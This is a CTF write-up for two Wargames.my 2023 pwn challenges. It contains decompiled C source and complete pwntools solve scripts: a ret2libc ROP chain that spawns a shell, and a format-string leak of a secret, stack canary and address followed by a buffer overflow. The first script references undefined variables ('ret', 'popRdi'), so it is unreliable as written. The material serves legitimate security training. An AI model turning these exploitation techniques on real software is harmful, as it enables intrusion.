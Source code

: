 ```yaml
---
toc: true
title: "WGMY CTF"
description: Wargames.my
pubDate: 2023-12-16
author: Duc Anh Nguyen
---
```


## [1. Pwn: Magic Door](https://github.com/heckintosh/CTF/tree/main/WargamesMy/Pwn/magic-door/challenge)
```shell
pwndbg> checksec
[*] '/home/kali/CTF/WargamesMy/Pwn/magic-door/challenge/magic_door'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
<details open>
  <summary><b>Source</b></summary>

  ```c
  char *open_the_door()
{
  char s1[12]; // [rsp+0h] [rbp-10h] BYREF
  int v2; // [rsp+Ch] [rbp-4h]

  initialize();
  puts("Welcome to the Magic Door !");
  printf("Which door would you like to open? ");
  __isoc99_scanf("%11s", s1); // Enter 050015 here
  getchar();
  if ( !strcmp(s1, "50015") )
    return (char *)no_door_foryou();
  v2 = atoi(s1);
  if ( v2 != 50015 )
    return (char *)no_door_foryou();
  else
    return magic_door();
}
```

```c
char *magic_door()
{
  char s[8]; // [rsp+10h] [rbp-40h] BYREF
  __int64 v2; // [rsp+18h] [rbp-38h]
  __int64 v3; // [rsp+20h] [rbp-30h]
  __int64 v4; // [rsp+28h] [rbp-28h]
  __int64 v5; // [rsp+30h] [rbp-20h]
  __int64 v6; // [rsp+38h] [rbp-18h]
  __int64 v7; // [rsp+40h] [rbp-10h]
  __int64 v8; // [rsp+48h] [rbp-8h]

  *(_QWORD *)s = 0LL;
  v2 = 0LL;
  v3 = 0LL;
  v4 = 0LL;
  v5 = 0LL;
  v6 = 0LL;
  v7 = 0LL;
  v8 = 0LL;
  puts("Congratulations! You opened the magic door!");
  puts("Where would you like to go? ");
  return fgets(s, 256, stdin);
}
  ```
</details>

Easy to see that there is a buffer overflow in magic_door. In order to get to it you have to pass the `open_the_door` function first. The task is to pass these two seemmingly contradicting conditions:

| Conditions      | Description |
| ----------- | ----------- |
|`!strcmp(s1, "50015")` |    strcmp returns 0 if equal -> if "50015" is entered: !0 -> true and you are not able to proceed|
|`v2 = atoi(s1); v2 != 50015`|  Check if atoi(input) == 50015|

Enter 050015 should satisfy first condition and atoi will ignore leading zero also. Now it's just ret2libc for the `magic_door` function (since NX is enabled so no shellcode). Now is just to leak the libc address via puts and perform ret2libc.

<details>
<summary><b>solve.py</b></summary>

```python
from pwn import *
import os
from LibcSearcher import *

context.arch = 'amd64'
pty = process.PTY
is_local = False
is_remote = False

elf = ELF("/home/kali/CTF/WargamesMy/Pwn/magic-door/challenge/magic_door")
if len(sys.argv) == 1:
    is_local = True
    p = process(elf.path, stdin=pty, stdout=pty)

elif len(sys.argv) > 1:
    is_remote = True
    if len(sys.argv) == 3:
        host = sys.argv[1]
        port = sys.argv[2]
    else:
        host, port = sys.argv[1].split(':')
    p = remote(host, port)

def debug(cmd=''):
    if is_local: gdb.attach(p,cmd)


#debug(cmd='''b *magic_door+135''')
print(p.recvuntilS("open?"))

p.sendline("050015")
print(p.recvuntilS("go?"))

rop = ROP(elf)
pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
main = elf.symbols['main']

log.info("pop rdi: " + hex(pop_rdi))
log.info("Puts@plt: " + hex(puts_plt))
log.info("Puts got: " + hex(puts_got))
log.info("Main: " + hex(main))

payload = b'A' * 72 + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main) # leak put address and return to main to execute system command after knowing libc
p.sendline(payload)

p.recv()
puts_leak = u64(p.recv(6).ljust(8,b"\x00")) 

log.info("Puts leak " + hex(puts_leak))
libc = LibcSearcher("puts", puts_leak) # using libc searcher right here, if there is libc error you have to manually addd libc to libcsearcherfolder.

p.sendlineafter(b"Which door would you like to open?",b"050015")

rop  = b"A"* 72
rop += ret + popRdi + p64(next(libc.search(b"/bin/sh"))) + p64(libc.symbols["system"])

p.sendlineafter(b"Where would you like to go?",rop)
p.interactive()

#print(p.recvall(timeout=1))

```
</details>


## [2. Pwn: Pakmat Burger](https://github.com/heckintosh/CTF/tree/main/WargamesMy/Pwn/pakmatburger/challenge)

<details open>
<summary><b>Source</b></summary>

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  const char *s2; // [rsp+0h] [rbp-40h]
  char s1[9]; // [rsp+Ah] [rbp-36h] BYREF
  char phonenum[10]; // [rsp+13h] [rbp-2Dh] BYREF
  char format[12]; // [rsp+1Dh] [rbp-23h] BYREF
  char v8[15]; // [rsp+29h] [rbp-17h] BYREF
  unsigned __int64 v9; // [rsp+38h] [rbp-8h]

  v9 = __readfsqword(0x28u);
  initialize(argc, argv, envp);
  s2 = getenv("SECRET_MESSAGE");
  if ( s2 )
  {
    puts("Welcome to Pak Mat Burger!");
    printf("Please enter your name: ");
    __isoc99_scanf("%11s", format);
    printf("Hi ");
    printf(format);
    printf(", to order a burger, enter the secret message: ");
    __isoc99_scanf("%8s", s1);
    if ( !strcmp(s1, s2) )
    {
      puts("Great! What type of burger would you like to order? ");
      __isoc99_scanf("%14s", v8);
      getchar();
      printf("Please provide your phone number, we will delivered soon: ");
      return (unsigned int)fgets(phonenum, 100, stdin);
    }
    else
    {
      puts("Sorry, the secret message is incorrect. Exiting...");
      return 0;
    }
  }
  else
  {
    puts("Error: SECRET_MESSAGE environment variable not set. Exiting...");
    return 1;
  }
}
```

```c
int secret_order()
{
  return system("cat ./flag.txt");
}
```
</details>

Examining the source code, there is a format string vulnerability in `printf(format)`. Using this we can leak the secret and bypass the secret requirements. Use %1$p for example to leak an address on the stack.

 Also we can use it to bypass the canary. `return (unsigned int)fgets(phonenum, 100, stdin);` is just straight up a buffer overflow vulnerability. Phonenum length is only 10 but `fgets` allows 100 characters to be put in the array. Overflow and return to the `secret_order` function to get the flag. 

Since the secret does not change and I can only use the format vulnerablity to leak two out of three key information for this challenge, I have to connect to the server twice, first call is to leak the secret and the second time is for full exploitation.

<details open>
<summary><b>solve.py</b></summary>

```python
from pwn import *
import os
import re

context.arch = 'amd64'
pty = process.PTY
is_local = False
is_remote = False

elf = ELF("/home/kali/CTF/WargamesMy/Pwn/pakmatburger/challenge/pakmat_burger")
if len(sys.argv) == 1:
    is_local = True
    p = process(elf.path, stdin=pty, stdout=pty)

elif len(sys.argv) > 1:
    is_remote = True
    if len(sys.argv) == 3:
        host = sys.argv[1]
        port = sys.argv[2]
    else:
        host, port = sys.argv[1].split(':')
    p = remote(host, port)

def debug(cmd=''):
    if is_local: gdb.attach(p,cmd)



# Grab secret the first time
print(p.recvuntilS("name:"))
p.sendline(b"%6$s")
secret = p.recvuntil(",")[:-1].decode().split()[1]
log.info("Secret " + secret)
p.close()

# Run again:
# p = process(elf.path, stdin=pty, stdout=pty)
p = remote(host,port)
# debug(cmd='''
# b *main+373
# ''')

print(p.recvuntilS("name:"))
p.sendline(b"%13$p.%17$p") # 13 is canary, 17 is main
leak = p.recvuntil(",")[:-1].decode().split()[1].split(".")
canary = leak[0]
main_leak = leak[1]
pop_rdi = 0x000000000000101a

log.info("Canary " + canary)
log.info("Main " + main_leak)
canary = int(canary, 16)
main_leak = int(main_leak, 16)
ret_offset = main_leak + 394  # calculate these by deducing them in gdb 
secret_offset = main_leak - 22
log.info("Ret " + f"0x{ret_offset:016x}")
log.info("Secret Order " + f"0x{secret_offset:016x}") # Calculate secret order address
p.sendline(secret)

print(p.recvuntilS("order?"))
p.sendline(b"Test")
print(p.recvuntilS("soon:"))

payload = b"A"*37 + p64(canary) + b"A"*8 + p64(ret_offset) + p64(secret_offset)  # Overflow the buffer and return to the secret function.

p.sendline(payload)
p.recvall(timeout = 1)
# """ 
# Code For finding offset from canary til ret. it was 8 
# p.wait()
# core = p.corefile
# stack = core.rsp
# log.info("rsp = %#x", stack)
# pattern = core.read(stack, 4)
# rip_offset = cyclic_find(pattern)
# log.info("rip offset is %d", rip_offset)
# """

p.interactive()
```
</details>